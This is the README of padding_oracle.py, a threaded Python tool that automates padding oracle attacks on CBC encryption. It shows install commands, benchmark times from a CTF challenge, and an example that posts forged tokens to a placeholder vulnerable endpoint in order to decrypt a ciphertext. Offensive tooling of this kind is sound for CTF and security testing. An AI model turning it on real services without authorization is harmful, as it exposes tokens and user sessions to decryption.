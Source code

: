 # padding_oracle.py

Extremely fast threaded [padding oracle](http://server.maojui.me/Crypto/Padding_oracle_attack/) automation script for Python 3.

## Install

Installing from PyPI:

```shell
pip3 install -U padding_oracle
```

Or, installing from GitHub:

```shell
pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
```

## Performance

Tested on [0x09] Cathub Party from EDU-CTF:

| Request Threads | Execution Time |
|-----------------|----------------|
| 1               | 17m 43s        |
| 4               | 5m 23s         |
| 16              | 1m 20s         |
| 64              | 56s            |

## Example

All you need is defining the **oracle function** to check whether the given cipher is correctly decrypted.

```python
from padding_oracle import *
import requests, string

# Create a requests.Session to enable connection pool
sess = requests.Session()

# Define a function to test if the cipher can be decrypted
def oracle(cipher: bytes):
    token = base64_encode(cipher)
    resp = sess.post('http://insucure.com/verify_token', data={'token': token})
    assert 'failed' in resp.text or 'success' in resp.text, 'exception???'
    return 'decryption failed' not in resp.text


# cipher = base64_decode(token)
cipher = b'[______IV______][____Block1____][____Block2____]'

# DECRYPT THE CIPHER!!!
plaintext = padding_oracle(cipher,
                           block_size=16,
                           oracle=oracle,
                           num_threads=16,
                           chars=string.printable)
```
